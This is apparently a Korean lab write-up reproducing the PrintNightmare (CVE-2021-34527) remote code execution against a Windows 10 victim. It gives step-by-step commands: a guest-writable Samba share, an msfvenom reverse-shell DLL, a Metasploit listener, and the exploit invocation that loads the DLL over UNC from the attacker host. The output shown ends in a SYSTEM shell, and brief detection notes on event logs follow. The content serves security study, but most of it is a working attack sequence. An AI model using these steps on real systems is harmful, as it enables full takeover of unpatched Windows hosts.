









# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS              | Build     | Core | RAM  | IP            | App          |
| :---       | :---            | :---      | :--- | :--- | :---          | :---         |
| Victim     | Windows 10 1903 | 18362.356 | 2    | 4GB  | 192.168.0.114 |              |
| Attacker   | Kali 2019       |           |      |      | 192.168.0.112 | [exploit.py](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2021-34527/file/exploit.py) |


# **Setting**

spooler 서비스 동작 확인




# **Exploit**

SMB 서버의 smb.conf(/etc/samba/smb.conf) 설정 수정

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
writable = yes
read only = no
browseable = yes
force user = nobody
```

reverse tcp 페이로드 생성

```sh
┌──(root💀kali)-[~]
└─# msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.112 LPORT=3333 -o /tmp/evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: /tmp/evil.dll
```

SMB 서버 실행

```sh
┌──(root💀kali)-[~/Desktop]
└─# service smbd start                                                   3 ⨯
                                                                             
┌──(root💀kali)-[~/Desktop]
└─# service smbd status
● smbd.service - Samba SMB Daemon
     Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor pres>
     Active: active (running) since Thu 2021-07-15 22:20:38 EDT; 1s ago
...
```

metasploit 세션 대기

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/shell_reverse_tcp
PAYLOAD => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.112
LHOST => 192.168.10.223
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:3333
```

Exploit Code 실행

    python3 exploit.py "아이디":"비밀번호"@"공격 대상 IP" "아무 문자열" "\\SMB 서버 IP\공유 폴더 명\실행시킬 악성코드"

```sh
┌──(root💀kali)-[~]
└─# python3 CVE-2021-34527.py user:user@192.168.0.114 a '\\192.168.0.112\smb\evil.dll'
[*] Connecting to ncacn_np:192.168.0.114[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_16f13144559407c0\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.112\smb\evil.dll
[*] Try 0...
[*] Stage0: 0
[*] Stage1: 0
[+] Exploit Completed
[*] Stage2: 0
[+] Exploit Completed
[*] Stage3: 0
[+] Exploit Completed
SMB SessionError: STATUS_PIPE_BROKEN(The pipe operation has failed because the other end of the pipe has been closed.)
SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)
...
```

metasploit 세션 확인

```sh
[*] Command shell session 1 opened (192.168.0.112:3333 -> 192.168.0.114:50004) at 2021-07-16 00:32:42 -0400
C:\Windows\system32>whoami
whoami
nt authority\system
```

# **etc**

이벤트뷰어(eventvwr)의 로그 확인

    Windows 로그 > 보안







    Windows 로그 > 응용 프로그램





    Windows 로그 > 시스템



    응용 프로그램 및 서비스 로그 > Microsoft > Windows > SMBClient > Operational



process tree 확인


prefetch 확인



[Reference](https://github.com/cube0x0/CVE-2021-1675)